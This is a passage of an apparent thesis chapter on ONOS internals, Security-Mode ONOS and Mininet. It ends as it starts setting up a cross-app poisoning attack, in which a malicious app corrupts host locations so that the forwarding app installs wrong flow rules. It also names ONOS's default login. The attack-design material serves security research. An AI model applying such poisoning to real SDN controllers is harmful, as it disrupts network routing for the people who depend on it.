\chapter{System architecture and attacks design}

\section{ONOS internals}

%% Explain how ONOS is built, its internals and go deep explaining ONOS architecture

\subsection{System Components}

%% - OSGi
%%      - https://www.techtarget.com/searchnetworking/definition/OSGi
%%      - https://en.wikipedia.org/wiki/OSGi
The OSGi Alliance (formerly known as the Open Services Gateway initiative) was founded in 1999 to specify and promote open standards for computers and software. Among the original members were by IBM, Motorola, Sun Microsystems (now Oracle), Ericsson and others. Originally the only specification promoted by the foundation was the OSGi standard. Since during time the products and specifications grew even beyond the original purposes, in October 2020 the standardization working group transitioned to the Eclipse Foundation. The OSGi specification provides a framework to deploy services in a shared environment, control how they behave and how they communicate, share resources and data. It is based on a micro-service architecture composed by Java standalone applications defined as extended Java class file archives (JAR files). The OSGi framework is composed by the following layers:

\begin{itemize}
    \item\texttt{Bundles}: Applications come in the form of "bundles", that are JAR compiled libraries with extra manifest headers. In the bundle specification file there are written some important information needed to correctly run the service, but also secondary information available for maintenance. Some important fields are: 1) The bundle name, 2) the symbolic bundle name (specified in reverse hierarchical order, e.g. org.onosproject.testapp), 3) the bundle description, 4) the bundle version, 5) imported packages needed to run the service and 6) exported packages for other bundles.
    \item\texttt{Services}: The services layer provides capabilities for bundles to interact each other using a publish-find-bind model.
    \item\texttt{Services Registry}: The API layer for management services.
    \item\texttt{Life-Cycle}: This layer provides APIs for bundles life-cycle management (install, start, stop, update, and uninstall). Bundles can be installed both locally and remotely. A bundle can be in multiple status: INSTALLED means it has been successfully installed. RESOLVED means that all the requirements are met and it's ready to be installed. ACTIVE means the bundle is running, while UNINSTALLED means it has been correctly uninstalled. STARTING and STOPPING are two self-explanatory temporary statuses.
    \item\texttt{Modules}: This layer takes care of dependencies (how a bundle imports and exports code)-
    \item\texttt{Execution Environment}: Hardware, OS, Java Virtual Machine.
\end{itemize}

The framework specifies also many services in the form of Java interfaces. Bundles can implement these interfaces and register the services using the Service Registry. Some of the most useful ones are: Logging, Administration services, Facilitated device access, HTTP, XML and other protocol helpers and parsers. Many popular products use the OSGi frameworks, notable mentions are: Adobe Experience Manager, IntelliJ, JBoss, NetBeans, Open Daylight Project (open source SDN solution backed by The Linux Foundation), Weblogic, WebSphere and many others. At the time of writing there are multiple implementation choices to use the OSGi framework: Apache Felix, Apache Karaf, Equinox OSGi, Concierge OSGi, Eclipse Gemini. ONOS is implemented using Apache Karaf. We are going to see its architecture and main features.
\medskip

As we can see from the Figure 2.1, Apache Karaf is an extension of an OSGi framework implementation (that's why the Apache Foundation supports both Karaf and Felix). 
\begin{figure}[h]
\caption{Apache Karaf architecture}
\label{fig:karaf}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/karaf.png}
\centering
\end{figure}
The Apache Karaf Documentation lists their key features:
\begin{itemize}
    \item\texttt{Hot deployment}: Install, activate and deactivate applications at runtime
    \item\texttt{Dynamic configuration}: Change configuration settings at runtime
    \item\texttt{Logging system}: Centralized logging system supporting multiple frameworks (such as log4j, slf4j, logback).
    \item\texttt{Provisioning}: Provides the concept of "Karaf Features" which is a way to describe your application.
    \item\texttt{Shell Console}: Complete Unix-like shell console where control the whole environment.
    \item\texttt{Remote management}: Connect using a SSH client.
    \item\texttt{WebConsole}: Connect using a browser.
    \item\texttt{Security}: Karaf fully supports JAAS based security framework.
    \item\texttt{Instances management}: Multiple Karaf instances can be directly managed from the main one.
    \item\texttt{Docker \& Cloud ready}: Manage Docker containers and images using the Karaf shell console.
\end{itemize} 

During the research activity explained in this document all the features listed above except for the multiple Karaf instances management were used \cite{karaf-docs}.
\medskip

%% - https://wiki.onosproject.org/display/ONOS/System+Components
In the Open Network Operating System (ONOS) Documentation we can read its design goals: a) Code Modularity: it should be possible to add new features as self contained units. b) Configurability: it should be possible to add new features both at system startup and runtime. c) Separation of Concern: the separation of the subsystems should be clear in order to facilitate the modularity. d) Protocol Agnosticism: ONOS and its submodules should not be bound to any specific protocol or implementation.

In order to improve the concept of Code Modularity ONOS takes advantage of Maven cumulative pom (Project Object Model) files. Maven uses pom.xml file to correctly compile and build the related service, it contains information like source folder, project and configuration data, dependencies, build directory and so on. In the root folder of ONOS it's placed the root pom.xml file and all the subservices in the source tree uses that root configuration file as parent. Doing so it's possible to compile and build all the services in a separated manner improving code modularity. 

As seen in the first chapter, the ONOS code provides two ways to communicate: the Northbound APIs for the applications and the Southbound APIs for the data-plane objects. Only the network-facing modules are protocol-aware and so they can understand multiple protocols, while all the above components are protocol-agnostic. Doing so it's easy to add new protocol support just by adding a new network facing protocol-aware translator module.

The first chapter explained in a brief manner how ONOS is built, its logical layers and how it works. We mentioned the "subsystems" that are the components that make up a service. E.g. the Device Subsystem manages the inventory of infrastructure devices. In the Figure 2.2
\begin{figure}[h]
\caption{ONOS subsystems}
\label{fig:subsystem}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/onos-subsystems.png}
\centering
\end{figure}
we can see all the subsystems present in ONOS. In the following sections (even in the next chapters) we will encounter implementation details (data format, APIs...) for some of them. In Figure 2.3 we can see a default subsystem structure with all the default components. First of all we have three layers that correspond to the Data, Control and Application logical layers. The orange rectangles are all the possible communications between an application and the core component. The green rectangles instead are all the possible communications between a provider and the core component. The blue part instead is the software taking care of distributed data. In particular, as we've seen in previous chapter, ONOS has a distributed core: this means we can deploy ONOS instances on multiple nodes and they will be up to date with their peers. In reality the only part that is shared between multiple nodes in order to stay up to date for all the events generated in distributed nodes is the actual data. The manager component is the entity taking care of the core functions for a specific subsystem and it contains all the data related to that subsystem. When a store has an update, the manager component notifies all the peers in order to have all the ONOS nodes up to date with the latest data. For this reason, the halves of the figure are specular. 
\begin{figure}[h]
\caption{ONOS subsystem structure}
\label{fig:subsystem-struct}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/sub-struct.png}
\centering
\end{figure}
Considering the left half of the figure and starting from the top we can see: 

An Application can communicate with the manager component using multiple ways (via Northbound APIs): It can query the subsystem service to receive specific data or send commands to be executed. It can sends commands to the AdminService only if the application has the required permissions. It can register itself as listener for particular events like in a publish-subscribe model; the service will notify all the applications listening for a particular event.

A Provider component can communicate with network devices using protocol-aware APIs, while use protocol-agnostic APIs (Southbound APIs) to communicate with the manager component. The Provider can receive and execute commands on behalf of the manager component; it can send data (coming from data-plane or aggregated statistics) to the ProviderService or register for events using the ProviderRegistry.

\subsection{Source code overview}

The Open Networking Foundation hosts their projects' source code on the GitHub organization "opennetworkinglab". Among many repositories (more than 50) written in many languages such as Python, Java, C, Go and Typescript it's possible to find the ONOS source code in the repository named "onos".

In the root folder out of the common text and markdown files (README, RELEASES, LICENSE, .gitignore, VERSION, CODE\_OF\_CONDUCT...) we can see a Dockerfile to build the ONOS Docker image and many files related to Bazel (WORKSPACE, BUILD, .bazel* files). Bazel is an open source tool to automate projects building and testing. It's the free and open source version (bazelbuild on GitHub) of the tool called Blaze that Google use internally. 
Going through the various folders we can list some important codebase sections:
\begin{itemize}
    \item\texttt{apps/}: This folder contains all the default applications developed by ONOS community.
    \item\texttt{cli/}: This folder contains all the code needed to implement the ONOS Command Line service (see The ONOS CLI section on the official documentation). 
    \item\texttt{core/}: This folder contains all the core components. In particular the APIs, all the data stores, the protocol-agnostic network interfaces and the security mechanisms.  
    \item\texttt{docs/}: Documentation.
    \item\texttt{drivers/}: Drivers for interacting with brand-specific entities (Cisco, Juniper, HP, Fujitsu...)
    \item\texttt{protocols/}: Various protocols support (BGP, gRPC, REST, xmpp, ovsdb, p4runtime...)
    \item\texttt{tools/}: This folder contains various tools and helper scripts to support various stages of the testing, development and production phases (e.g. install a new application at runtime using a single command).
    \item\texttt{web/}: This folder contains all the web accessible resources :API documentation, two versions of the ONOS Graphical User Interface and HTTP REST APIs.
\end{itemize}

Reading the ONOS API official documentation we can see the ONOS project exports more than 100 packages available to internal functions and applications to effectively interact with the network environment and other ONOS components \cite{apidocs}. As example we can take the package named "org.onosproject.net.host" that is the one taking care of end-station host model \& related services API definitions. As for many packages we have multiple classes and interfaces, but there are some recognizable ones present in many packages. The HostAdminService is the service for administering the inventory of end-station hosts with administration privileges. The HostProviderService is the Southbound API definition to send information to the core. The HostService is the service for interacting with the inventory of end-station hosts. The HostStore is the data-store managing the inventory of end-station hosts. These four elements (AdminService, ProviderService, Service and Store) adapted for the various subsystems are present in many packages intended to interact with the network. In the next chapters we will encounter the ONOS API definitions many times and we will understand how to use them in order to build effective Cross Application Poisoning attacks and how to edit their specification to detect those malicious behaviors.

\subsection{Security-Mode ONOS}

In Section 1.2 (Introduction to CAP attacks) under the subsection "ONOS security mechanisms", Security-Mode ONOS was introduced. In particular, we saw which are the main security problems that a malicious application could leverage and how to reduce the attack surface; how a simple Security Policy file is composed and the meaning of each important field and the various layers of security checks that must be checked in order to have access to a secured resource (Bundle-level Role-based, Application-level Role-based and API-level Permission-based Access Control). This subsection adds more useful information to understand how this mode works and how to effectively use it.
\medskip

The Figure 2.4 shows the "big picture" of the application security process through this mode. We can separate the figure in two main parts: the left half is the development process and the right half is the production process. In the left half we can notice that the operator is the ONOS application developer: this person is in charge of designing, developing and testing the application (hopefully maintaining too). Application Testing must not be ignored (too many times this happens) because a buggy application can have the exact same behavior of a malicious app. Once the developer has completed all these steps, the Security-Mode compatibility adaptation kicks in. The developer must collect all the APIs the application uses in its functions and compile the Policy file (look at the subsection "ONOS security mechanisms" in Section 1.2 to see its basic structure) following the "least privilege principle". Just to recap, this concept means that only the minimum requirements necessary to complete the operations should be granted to an application in order to avoid permissions misuse. This principle is helpful in edge scenarios too: think about a vulnerable application that an attacker can take over and control its functions, now even an attacker can use APIs not strictly necessary for that application. Once the developer completes this step, the final result is a Security-Mode compatible ONOS application, this means ONOS environments with security-mode set up can accept this new application. Then we transition from the left half to the right half with the 'distribution' process: here the developer has infinite ways to ship the product, but we can sum them up in two classes, closed-sourced and open-sourced applications. To follow the best security practices, also the product distribution should be done using some niceties, a good practice is to both sign application and policy file.
\begin{figure}[h]
\caption{Security-Mode ONOS process}
\label{fig:secmode-process}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/secmode1.png}
\centering
\end{figure}
Shifting to the right half of the figure, when an ONOS network operator wants to install a new application in the network environment, some practices should be followed. First of all, if the application and policy file are signed, the ONOS network operator should check the authenticity of the signatures. Doing so it's possible to avoid many problems related to phishing or malware campaigns. Then the application can be deployed in the Security-Mode ONOS environment, but not yet installed. In order to install the application the ONOS network operator must review the application policy and if everything seems ok agree and accept the security policy. Upon the policy acceptance, all the rules are immediately enforced \cite{secmodeslides}. 

When a new application must be installed in an ONOS environment the application life-cycle is pretty simple: 
\begin{itemize}
    \item When a new application is installed the status is INSTALLED.
    \item Only when the application is activated and the status is ACTIVE it can perform its functions.
    \item From the ACTIVE status the application can be deactivated and the status goes back to INSTALLED.
    \item From both statuses INSTALLED and ACTIVE an application can be uninstalled. 
\end{itemize}
In Security-Mode ONOS this life-cycle changes a little bit.
\begin{figure}[h]
\caption{Security-Mode ONOS application statuses}
\label{fig:secmode-states}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/secmode-states.png}
\centering
\end{figure}
When an application is activated its status becomes INSTALLED. Then when the ONOS network operator reviews the security policy the status is REVIEWED, but still cannot be installed. Only when the operator effectively accepts the security policy the status changes to SECURED and can be installed. In all the previous statuses the application can be uninstalled. From the SECURED status if a policy violation happens (e.g. an application tries to access forbidden APIs), the status changes to POLICY\_VIOLATED. In Security-Mode ONOS only when an application has the status SECURED can be activated, otherwise remains in INSTALLED status. This security policy enforcement is checked in all the multiple distributed ONOS nodes thanks to the same data store distributed consistency technology (RAFT-based strongly consistent distributed store).

Security-Mode ONOS leverages two different technologies:
\begin{itemize}
    \item\texttt{Java Security Manager}: It's a Java class (java.lang.SecurityManager) that allows to write a security policy and specify which resources (fields, class, packages, files...) an application has access to. 
    \item\texttt{OSGi security layer}: The OSGi framework specifies an optional layer taking care of security (some features include: Code Authentication, Digitally Signed JAR Files, Java JAR File Restrictions ad Filter Based Permissions).
\end{itemize}


\clearpage

\section{Mininet}

During all this research activity the data-plane and networks used were virtualized using Mininet. This section explains what is Mininet, how it works and how it's possible to create virtualized networks connected to ONOS controllers.

\subsection{General overview}
Mininet is an open source (mininet Organization on GitHub) network emulator useful for testing, research, prototyping and debugging. At the time of writing it counts more than 60 contributors, distributed using the BSD Open Source license with 6 official releases, while testing the candidate 2.3.1b1. It supports many installation methods but the easiest one is using the pre-packaged Ubuntu virtual machine images. Many virtualization systems are supported: the famous VirtualBox, VMware Fusion, Hyper-V and VMware Workstation Player, but even Qemu and KVM.

In the README of the GitHub project page the maintainers explain Mininet using a very simple definition \cite{mininetgh}: 
%% - https://github.com/mininet/mininet#how-does-it-work
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]Mininet creates virtual networks using process-based virtualization and network namespaces - features that are available in recent Linux kernels. In Mininet, hosts are emulated as bash processes running in a network namespace, so any code that would normally run on a Linux server (like a web server or client program) should run just fine within a Mininet 'Host'. The Mininet 'Host' will have its own private network interface and can only see its own processes. Switches in Mininet are software-based switches like Open vSwitch or the OpenFlow reference switch. Links are virtual Ethernet pairs, which live in the Linux kernel and connect our emulated switches to emulated hosts (processes).
\end{quoting}

%% - https://mininet.org/overview/
Among many network virtualization technologies available, Mininet is used as data-plane for all the tests during the research activity. Mainly due to being open-sourced, actively maintained and having an active community, it boots faster than the alternatives (seconds vs minutes), inexpensive and always available and quickly reconfigurable and restartable. However, there are also limitations: networks virtualized using this technology cannot exceed the CPU or bandwidth available on a single server and it cannot run non Linux-compatible OpenFlow switches. Fortunately these limitations don't affect our goals.

From the maintainers' description we understand that Mininet leverages some Linux Kernel based technologies:
\begin{itemize}
    \item\texttt{Bash processes}: Nodes are spawned using bash processes running independently in the background
    \item\texttt{Network namespaces}: A Linux based machine shares a single set of network resources, such as network devices, IP and ARP routing tables, IPv4 and IPv6 protocol stacks, firewall rules and the /proc/net directory. It's possible to modify these settings, but they will be still shared across the entire Operating System. Network namespaces (supported since Linux kernel version 2.2.26) provide an isolation method in which it's possible to define isolated network resources.
    \item\texttt{Virtual Ethernet (veth) pairs}: To create network links, virtual Ethernet pairs are used. We can see this technology as a tube with two ends, whatever goes in, goes out the other end. They are used to connect nodes to each other.
\end{itemize}

%% - https://github.com/mininet/mininet#features
Among many features the authors highlight:
\begin{itemize}
    \item A command-line launcher (mn) to instantiate networks.
    \item A handy Python API for creating networks of varying sizes and topologies.
    \item Full API documentation via Python help() docstrings, as well as the ability to generate PDF/HTML documentation with make doc.
    \item Parametrized topologies (Topo subclasses) using the Mininet object.
    \item A command-line interface (CLI class) which provides useful diagnostic commands (like iperf and ping), as well as the ability to run a command to a node.
    \item A "cleanup" command to get rid of junk (interfaces, processes, files in /tmp, etc.) which might be left around by Mininet or Linux.
\end{itemize}

%% - https://www.techtarget.com/whatis/definition/OpenFlow
%% - https://en.wikipedia.org/wiki/OpenFlow
Since the environment used in tests is a Software Defined Network, we use an ONOS controller (single, never multiple), switches and end-station hosts. The ONOS controller can be remotely placed (not in the same machine) with respect to the virtualized network. The control and data planes communicate using the OpenFlow protocol. The OpenFlow protocol
is a communication protocol that allows communication between the forwarding and routing plane. As already said in Chapter 1, one of the goal of Software Defined Networking is the separation of these two actions (routing and forwarding) and the OpenFlow protocol enables this sort of communication. To connect ONOS controller with a Mininet-based virtualized network we need to perform some steps: Assuming the ONOS controller and virtualized network are placed in two different locations and the IP address of the machine deploying ONOS is 192.168.1.8, we first need to connect to the ONOS CLI using the command:
%% - https://gist.github.com/edoardottt/a8717c7601a552a5deb832f598d6d288
\begin{lstlisting}[language=bash]
  $> ssh -p 8101 onos@192.168.1.8
\end{lstlisting}
By default the administration credentials are onos:rocks. Then we need to activate the openflow protocol in ONOS controller to allow the communication with the virtualized data-plane using the command (inside ONOS CLI):
\begin{lstlisting}[language=bash]
  ONOS> app activate org.onosproject.openflow
\end{lstlisting}

Finally we can create a simple Mininet-based virtualized network connected to ONOS controller using the command. Here we are specifying that the ONOS controller is on another machine (remote) with the related IP address of the ONOS controller location (ip=192,168.1.8) and which type of switches we want to use (ovs stands for Open vSwitch using the protocol OpenFlow version 1.3)
\begin{lstlisting}[language=bash]
  $> sudo mn --controller remote,ip=192.168.1.8 --switch ovs,protocols=OpenFlow13
\end{lstlisting}
\medskip

\subsection{Mininet CLI}

Inside the mininet CLI shell we can use help to list all the available commands.
\begin{lstlisting}[language=bash]
  mininet> help
  ...
\end{lstlisting}

Using the command "nodes" we can list all the nodes available in the network. From the output we can see a controller (c0), two hosts (h1 and h2) and a switch (s1). This is the configuration deployed by default if nothing about the network topology is specified (same as --topo linear,2).
\begin{lstlisting}[language=bash]
  mininet> nodes
  available nodes are:
  c0 h1 h2 s1
\end{lstlisting}

Using the command "links" we can list all the links available in the network. From the output we can see there are two links in the network. The links are automatically created and set up, in this case the hosts have only one interface (eth0) while the switch have two interfaces (eth1 and eth2). The switch is connected with both hosts and the links are correctly functioning on both side (notice OK message).
\begin{lstlisting}[language=bash]
  mininet> links
  h1-eth0<->s1-eth1 (OK OK)
  h2-eth0<->s1-eth2 (OK OK)
\end{lstlisting}

Using the command "dump" we can see general information about the network nodes. From the output we can see the two hosts h1 and h2 have respectively IP addresses 10.0.0.1 and 10.0.0.2 and process ID 781 and 783. There is a single switch, the Open vSwitch s1, using protocol OpenFlow version 1.3, having IP address 127.0.0.1 only for the loop-back interface and spawned with process ID 788. The remote controller has IP address 192.168.1.8, connected using the port 6653 (default OpenFlow port) spawned with process ID 773.
\begin{lstlisting}[language=bash]
  mininet> dump
  <Host h1: h1-eth0:10.0.0.1 pid=781>
  <Host h2: h2-eth0:10.0.0.2 pid=783>
  <OVSSwitch{'protocols': 'Openflow13'} s1: lo:127.0.0.1,s1-eth1:None,s1-eth2:None pid=788>
  <RemoteController{'ip': '192.168.1.8'} c0: 192.168.1.8:6653 pid=773>
\end{lstlisting}

If we want to execute a command on a specific network node we can simply prepend its name to the command.
\begin{lstlisting}[language=bash]
  mininet> h1 ifconfig -a
  h1-eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.1  netmask 255.0.0.0  broadcast 10.255.255.255
        ether 42:10:bd:0f:c3:10  txqueuelen 1000  (Ethernet)
  ...
\end{lstlisting}

Note that only the whole network is virtualized in a single shared environment. It's possible to deploy nodes in different network namespaces, even though it's not the best solution for testing debugging. As proof, we can run this command on two different machines and we get the same output.
\begin{lstlisting}[language=bash]
  mininet> h1 ps -a
  PID TTY       TIME CMD
  757 tty1  00:00:00 bash
 1052 tty1  00:00:00 sudo
 1053 tty1  00:00:00 mn
  ...
\end{lstlisting}
\begin{lstlisting}[language=bash]
  mininet> s1 ps -a
  PID TTY       TIME CMD
  757 tty1  00:00:00 bash
 1052 tty1  00:00:00 sudo
 1053 tty1  00:00:00 mn
  ...
\end{lstlisting}

In order to test connectivity between two hosts we can run the ping command.
\begin{lstlisting}[language=bash]
  mininet> h1 ping -c 1 h2
  PING 10.0.0.2 (10.0.0.2) 56(84) bytes of data.
  64 bytes from 10.0.0.2: icmp_seq=1 ttl=64 time=0.151 ms
  
  --- 10.0.0.2 ping statistics ---
  1 packets transmitted, 1 received, 0% packet loss, time 0ms
  rtt min/avg/max/mdev = 0.151/0.151/0.151/0.000 ms
\end{lstlisting}

Mininet provides also a useful command called "pingall" that simplifies the connectivity test between all the nodes in the virtualized network.
\begin{lstlisting}[language=bash]
  mininet> pingall
  *** Ping: testing ping reachbility
  h1 -> h2
  h2 -> h1
  *** Results: 0% dropped (2/2 received)
\end{lstlisting}

Prepending the network node name it's possible to run any command as in a Linux machine. This is an example of a Python HTTP server running on host h1.
\begin{lstlisting}[language=bash]
  mininet> h1 python3 -m http.server &
  ...
\end{lstlisting}

Using the --mac flag with the mn command when starting a network allows to set sequential MAC addresses (more readable).
\begin{lstlisting}[language=bash]
  mininet> h1 ifconfig -a
  h1-eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.1  netmask 255.0.0.0  broadcast 10.255.255.255
        ether 00:00:00:00:00:01  txqueuelen 1000  (Ethernet)
  ...
\end{lstlisting}

Many other useful flags are available (such as --test, --link...), but they are not used in this research activity; all the documentation is provided at the official Mininet website.

\subsection{Mininet Python API}
Mininet provides useful Python API to interact with its core functionalities. These APIs provide all the necessary capabilities to create complex networks and use all the functions available using the Mininet command line shell. There are three different levels of Mininet APIs: lower, middle and high level. The lower-level APIs define classes such as $Host$, $Switch$ and $Link$; these APIs are useful when you want have a clear clue of what is going on in the network or have a strict control all over the network devices. The middle-level APIs add the class $Mininet$ with the functions to properly manage network nodes (addHost, addSwitch, addLink...) and operations (start, stop...). The high-level APIs instead add the class $Topo$, which provides the ability to create reusable, parametrized topologies. Middle and High level APIs are useful when big networks must be created. In particular, topologies created using the high-level APIs can be reused as templates in conjunction with the --custom flag in the command mn.

The following Python code snippet is an example of low-level Mininet API. In the first six lines the network elements and links are created, then the IP addresses are set, finally it's possible to start and stop the devices.
\begin{lstlisting}[language=python]
h1 = Host( 'h1' )
h2 = Host( 'h2' )
s1 = OVSSwitch( 's1', inNamespace=False )
c0 = Controller( 'c0', inNamespace=False )
Link( h1, s1 )
Link( h2, s1 )
h1.setIP( '10.1/8' )
h2.setIP( '10.2/8' )
c0.start()
s1.start( [ c0 ] )
print( h1.cmd( 'ping -c1', h2.IP() ) )
s1.stop()
c0.stop() 
\end{lstlisting}

The following Python code snippet is an example of middle-level APIs. A Mininet object is created and using that we can add network devices and links. Then start the network, print the result of a ping command and attach the command line.
\begin{lstlisting}[language=python]
net = Mininet()
h1 = net.addHost( 'h1' )
h2 = net.addHost( 'h2' )
s1 = net.addSwitch( 's1' )
c0 = net.addController( 'c0' )
net.addLink( h1, s1 )
net.addLink( h2, s1 )
net.start()
print( h1.cmd( 'ping -c1', h2.IP() ) )
CLI( net )
net.stop()
\end{lstlisting}

The following Python code snippet is an example of high-level APIs. A network topology is defined as a class having the method build() taking as input the number of hosts to be created.
\begin{lstlisting}[language=python]
class SingleSwitchTopo( Topo ):
    "Single Switch Topology"
    def build( self, count=1 ):
        hosts = [ self.addHost( 'h%d' % i ) for i in range( 1, count + 1 ) ]
        s1 = self.addSwitch( 's1' )
        for h in hosts: 
            self.addLink( h, s1 )

net = Mininet( topo=SingleSwitchTopo( 3 ) )
net.start()
CLI( net )
net.stop()
\end{lstlisting}

This network topology can act as a template using the --custom flag. Here an example assuming the file is saved as topology.py and the ONOS controller has IP address 192.168.1.8:
\begin{lstlisting}[language=bash]
  $> sudo mn --mac --custom topology.py --topo SingleSwitchTopo --controller remote,ip=192.168.1.8 --switch ovs,protocols=OpenFlow13
\end{lstlisting}

Other useful Python APIs are available to build complex and fine-grained virtualized networks. Only the necessary commands and APIs used in the research activity were presented, all the others are well explained in the official Mininet documentation. 

\clearpage


\section{CAP attacks implementation}

\subsection{Malicious Host Tracking}
%% - general idea
This attack is the same described in the paper "Cross-App Poisoning in Software-Defined Networking" by Ujcich et al. There is only one ONOS controller with an host tracking and a reactive forwarding application. The first one has write permission on the Host Data Store, while the second one can read from the same store and write in the Flow Rule Store. The attack works in this way: the malicious host tracking application modifies the hosts' location, doing so when the network experiences a flow rule miss the switches have to ask to the ONOS controller where the packets should go. Given the fact that the Host Data Store is poisoned with fake locations, also the flow rules that should be installed won't be the rules to correctly route the packets. In this Cross Application Poisoning attack the goal of the malicious application is to install new flow rules even if it doesn't have the necessary permissions to do so.

After the local ONOS controller startup using the command
\begin{lstlisting}
  ~/onos/$> bazel run onos-local
\end{lstlisting}

two applications are installed: the org.onosproject.fwd application that takes care of reactive forwarding (installing flow rules dynamically when a flow rule miss happens) that is the CAP gadget used for this attack
\begin{lstlisting}[language=bash]
  ONOS> app activate fwd
\end{lstlisting}

and the openflow protocol support in order to connect the controller with the data-plane.
\begin{lstlisting}[language=bash]
  ONOS> app activate org.onosproject.openflow
\end{lstlisting}


To setup the data-plane for this CAP attack the command used is the following. This command creates hosts using human-readable MAC addresses, creates a topology with four hosts connected to four switches, use a remote controller with IP address 192.168.1.8 and set the switches to be OpenVSwitch models using protocol OpenFlow version 1.3.
\begin{lstlisting}[language=bash]
  $> sudo mn --mac --topo linear,4 --controller remote,ip=192.168.1.8 --switch ovs,protocols=OpenFlow13
\end{lstlisting}

Inside the ONOS CLI console we can use the command \textbf{apps} with some flags to list all the applications installed and activated. The first field is the application ID, then the application name, the ONOS version and the short description.
\begin{lstlisting}[language=bash]
onos@root> apps -a -s                                                      
*   3 org.onosproject.hostprovider         2.7.0    Host Location Provider
*   4 org.onosproject.lldpprovider         2.7.0    LLDP Link Provider
*   5 org.onosproject.optical-model        2.7.0    Optical Network Model
*   6 org.onosproject.openflow-base        2.7.0    OpenFlow Base Provider
*   7 org.onosproject.openflow             2.7.0    OpenFlow Provider Suite
*  38 org.onosproject.drivers              2.7.0    Default Drivers
*  47 org.onosproject.gui2                 2.7.0    ONOS GUI2
* 121 org.onosproject.fwd                  2.7.0    Reactive Forwarding
\end{lstlisting}

The only applications that access the Northbound APIs in this scenario are the reactive forwarding and the Web dashboard (GUI2) application.

\begin{figure}[h]
\caption{Malicious Host Tracking CAP attack - data-plane}
\label{fig:cap1-dataplane}
